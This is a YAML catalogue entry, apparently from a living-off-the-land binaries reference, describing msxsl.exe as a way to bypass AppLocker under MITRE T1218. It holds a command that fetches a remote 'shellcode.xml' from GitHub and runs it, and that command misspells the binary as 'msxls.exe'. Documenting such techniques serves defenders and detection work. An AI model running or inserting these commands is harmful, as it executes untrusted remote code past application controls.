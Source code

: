 ```yaml
---
name: msxsl.exe
description: Command line utility used to perform XSL transformations.
functions:
  awl bypass:
    - description: Run COM Scriptlet code within the script.xsl file (local).
      code: msxsl.exe customers.xml script.xsl
      mitreid: T1218
      mitrelink: https://attack.mitre.org/wiki/Technique/T1218
      operatingsystem: Windows
      privileges: User
      usecase: Local execution of script stored in XSL file.
    - description: Run COM Scriptlet code within the shellcode.xml(xsl) file (remote).
      code: msxls.exe https://raw.githubusercontent.com/3gstudent/Use-msxsl-to-bypass-AppLocker/master/shellcode.xml https://raw.githubusercontent.com/3gstudent/Use-msxsl-to-bypass-AppLocker/master/shellcode.xml
      mitreid: T1218
      mitrelink: https://attack.mitre.org/wiki/Technique/T1218
      operatingsystem: Windows
      privileges: User
      usecase: Local execution of remote script stored in XSL script stored as an XML file.
resources:
    - resource: https://twitter.com/subTee/status/877616321747271680
    - resource: https://github.com/3gstudent/Use-msxsl-to-bypass-AppLocker
fullpath:
    - path: 
detection:
  - IOC: 
acknowledgement:
  - Person: Casey Smith
    Handle: '@subtee'
---
```

